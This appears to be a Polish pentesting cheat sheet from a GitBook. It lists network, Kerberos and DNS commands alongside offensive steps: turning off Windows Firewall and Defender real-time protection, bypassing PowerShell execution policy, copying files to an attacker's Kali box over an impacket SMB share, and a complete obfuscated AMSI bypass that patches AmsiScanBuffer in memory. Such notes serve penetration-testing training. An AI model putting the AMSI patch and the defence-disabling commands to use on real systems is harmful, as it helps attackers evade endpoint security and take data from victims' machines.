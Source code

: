 ```yaml
---
layout:
  title:
    visible: false
  description:
    visible: false
  tableOfContents:
    visible: false
  outline:
    visible: false
  pagination:
    visible: false
---
```


# !

Czy jest połączenie między kompami/netem

```
ping 10.20.10.4
ping cyber.local
ping wp.pl
```

jaką trasę przebywa komputer do danej strony

```
sudo hping3 --traceroute wp.pl -v -1
```

Jakie polityki spływają na komputer

```
gpresult /r
```

Siłowy update polityk

```
gpupdate /force
```

wystawienie katalogu w Kali na zewnątrz

```
python -m http.server 
sudo impacket-smbserver -smb2support share /home/kali/Desktop
```

na Windows podłaczenie się do SMB wystawionego przez Kali

```
net use x: \\10.20.10.31\share
```

kopiowanie jak jesteśmy w tym folderze w którym jest ten plik który chcemy skopiować z Windowsa na Kaliego

```
Copy-Item .\plik.zip X:
```

sprawdzanie aktywnych połączeń Kali/Win

```
sudo netstat -tulpn
netstat -ano
```

wyłączanie Defendera/Firewalla w Windows

```
netsh advfirewall set allprofiles state off

Set-MpPreference -DisableRealtimeMonitoring 1
Set-NetConnectionProfile -InterfaceName eth0 -NetworkCategory Private

Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False
```

WYLACZENIE ZABEZPEICZEN DLA PROCESU

```
Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope Process
```

WYLACZENIE ZABEZPEICZEN DLA UZYTKOWNIKA

```
Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope CurrentUser
```

sprawdzenie źródła ostatniego eventu

{% code overflow="wrap" %}
```
Get-WinEvent -LogName "Microsoft-Windows-Windows Defender/Operational" | Where-Object { $_.LevelDisplayName -ne "Information" } | Select-Object -ExpandProperty Message
```
{% endcode %}

WYLACZENIE AMSI

{% code overflow="wrap" fullWidth="false" %}
```
$qycku = @"
using System;
using System.Runtime.InteropServices;
public class qycku {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr segajv, uint flNewProtect, out uint lpflOldProtect);
}
"@

Add-Type $qycku

$sykxfjb = [qycku]::LoadLibrary("$([CHAR]([BytE]0x61)+[ChAR]([ByTe]0x6d)+[CHAR]([bYtE]0x73)+[CHaR]([byte]0x69)+[CHar]([bYTe]0x2e)+[CHAr](100)+[CHAr](108*41/41)+[chaR](108+38-38))")
$rzseld = [qycku]::GetProcAddress($sykxfjb, "$([cHaR](65)+[cHar]([bYtE]0x6d)+[cHaR]([BYtE]0x73)+[chAr](105+55-55)+[CHAR]([bYTE]0x53)+[ChAr]([ByTE]0x63)+[ChAr](97*88/88)+[cHAR]([BYtE]0x6e)+[cHAr](66*64/64)+[chAr](117+96-96)+[CHar](102+67-67)+[chaR]([bYTE]0x66)+[CHar](101+34-34)+[ChAr](114))")
$p = 0
[qycku]::VirtualProtect($rzseld, [uint32]5, 0x40, [ref]$p)
$pmeg = "0xB8"
$yhay = "0x57"
$ushj = "0x00"
$kdtz = "0x07"
$mrob = "0x80"
$fhad = "0xC3"
$fuqdn = [Byte[]] ($pmeg,$yhay,$ushj,$kdtz,+$mrob,+$fhad)
[System.Runtime.InteropServices.Marshal]::Copy($fuqdn, 0, $rzseld, 6)
```
{% endcode %}

updatowanie bazy searchsploit

```
searchsploit -u
```

ściąganie skryptu

```
searchsploit -m <path>
```

podgląd skryptu

```
searchsploit -x
```

FTP

```
ftp 172.2.12.99

get index.html
put plik.txt
dir
```

{% hint style="info" %}
jeżeli napiszemy jakiś skrypt w php to serwer http (Apache) to wykona
{% endhint %}

różnice w plikach

```
vimdiff plik1 plik2
```

listowanie ticketów kerberosowych

```
klist
```

usuwanie ticketów

```
klist purge
```

kasowanie zapisanych dns w Win

```
ipconfig /flushdns
```

podgląd wpisów w dns

```
ipconfig /displaydns
```

sprawdzanie ip google.com

```
nslookup google.com
```

sprawdzanie adaptera sieci

```
iwconfig
```

łączenie się poprzez openvpn

```
sudo openvpn plik.ovpn
```



<div data-full-width="true">

<figure><img src=".gitbook/assets/Screenshot 2023-07-24 at 18.59.00.png" alt=""><figcaption></figcaption></figure>

</div>
